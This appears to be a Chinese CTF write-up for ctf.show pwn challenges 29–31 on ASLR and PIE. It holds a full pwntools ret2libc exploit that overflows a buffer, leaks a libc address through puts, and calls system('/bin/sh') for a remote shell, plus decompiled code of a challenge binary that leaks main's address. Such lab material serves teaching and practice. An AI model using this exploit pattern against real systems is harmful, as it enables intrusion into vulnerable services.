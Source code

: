 pwn29：SLR和PIE开启后，地址都会将随机化，这里值得注意的是，由于粒度问题，虽然地址都被随机化了，但是被随机化的都仅仅是某个对象的起始地址，而在其内部还是原来的结构，也就是相对偏移是不会变化的。

# pwn30

正常libc。

``` python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
#sh = process('./pwn')u
sh =remote('pwn.challenge.ctf.show', 28143)
context.log_level = 'debug' 

elf = ELF('./pwn')

puts_plt = elf.plt['puts']
setvbuf_got = elf.got['setvbuf']
main = elf.symbols['main']

payload = flat(['A' * (0x88 + 4), puts_plt, main,  setvbuf_got])
sh.sendline( payload)

setvbuf_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('setvbuf', setvbuf_addr)
libcbase = setvbuf_addr - libc.dump('setvbuf')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

payload = flat(['A' * (0x88+4), system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

# pwn31

开了ALSR和PIE，但程序泄露了`main()`的真实地址，根据main的真实地址可以计算出各个函数的地址偏移量，然后正常libc解题即可。

``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0, 1, 0);
  setvbuf(stdout, 0, 2, 0);
  printf("%p\n", main);
  ctfshow(&argc);
  puts(asc_854);
  puts(asc_8C8);
  puts(asc_944);
  puts(asc_9D0);
  puts(asc_A60);
  puts(asc_AE4);
  puts(asc_B78);
  puts("    * *************************************                           ");
  puts(aClassifyCtfsho);
  puts("    * Type  : Linux_Security_Mechanisms                               ");
  puts("    * Site  : https://ctf.show/                                       ");
  puts("    * Hint  : Bypass ALSR & PIE ");
  puts("    * *************************************                           ");
  write(0, "Hello CTFshow!\n", 0xEu);
  return 0;
}
```